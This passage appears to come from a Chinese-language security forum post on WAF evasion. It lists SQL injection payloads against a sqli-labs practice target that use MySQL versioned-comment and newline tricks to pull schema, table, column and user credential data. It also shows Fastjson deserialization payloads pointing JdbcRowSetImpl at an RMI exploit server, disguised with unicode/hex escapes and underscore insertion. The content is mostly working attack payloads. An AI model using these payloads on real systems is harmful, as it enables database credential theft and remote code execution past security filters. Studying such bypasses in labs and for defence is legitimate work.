 ```php
http://10.0.22.140/SQLL/Less-1/?id=-1' union /*!%23%0aselect 1,2,group_concat(concat_ws(0x7e, username, password)) /*!%23/*%0afrom*/ security.users--+
```

![image.png](https://shs3.b.qianxin.com/attack_forum/2024/05/attach-a39c5de1887dc70eb012495e0c7bbf3a57a339a4.png)

第二种小方法

```php
http://10.0.22.140/SQLL/Less-1/?id=  -1'  union   /*!00000%23%0aselect*/  1,2, group_concat(schema_name)  /*!00000%23/*%0afrom */ information_schema.schemata   --+
```

![image.png](https://shs3.b.qianxin.com/attack_forum/2024/05/attach-df6561a42d84471ab307a804772cff96ab0e2b62.png)

```php
?id= -1' union /*!00000%23%0aselect*/ 1,2, group_concat(table_name) /*!%23/*%0afrom*/ information_schema.tables where table_schema='security' --+
```

```php
?id= -1' union /*!00000%23%0aselect*/ 1,2, group_concat(column_name) /*!%23/*%0afrom*/ information_schema.columns where table_name='users' --+
```

```php
?id= -1' union /*!00000%23%0aselect*/ 1,2,group_concat(concat_ws(0x7e, username, password)) /*!%23/*%0afrom*/ security.users --+
```

fastjson绕waf
============

<https://y4tacker.github.io/2022/03/30/year/2022/3/%E6%B5%85%E8%B0%88Fastjson%E7%BB%95waf/#%E7%BC%96%E7%A0%81%E7%BB%95%E8%BF%87-Unicode-Hex>  
● fastJson默认会对unicode和hex解码

```php
{"@type":"com.sun.rowset.JdbcRowSetImpl","dataSourceName":"rmi://127.0.0.1:1099/Exploit", "autoCommit":true}
    ||
    ||
    \/
{"\x40\u0074\u0079\u0070\u0065":"com.sun.rowset.JdbcRowSetImpl","dataSourceName":"rmi://127.0.0.1:1099/Exploit", "autoCommit":true}
```

● `_和-绕过`  
FastJson在解析JSON字段的key时，会将\_和-替换为空；在1.2.36之前\_和-只能单独使用，在1.2.36及之后，支持\_和-混合使用。

```php
{"@type":"com.sun.rowset.JdbcRowSetImpl",'d_a_t_aSourceName':"rmi://127.0.0.1:1099/Exploit", "autoCommit":true}
```

● 超⼤数据包⼀般都能绕过  
和SQL一样，WAF会放行数据字符过大的数据包
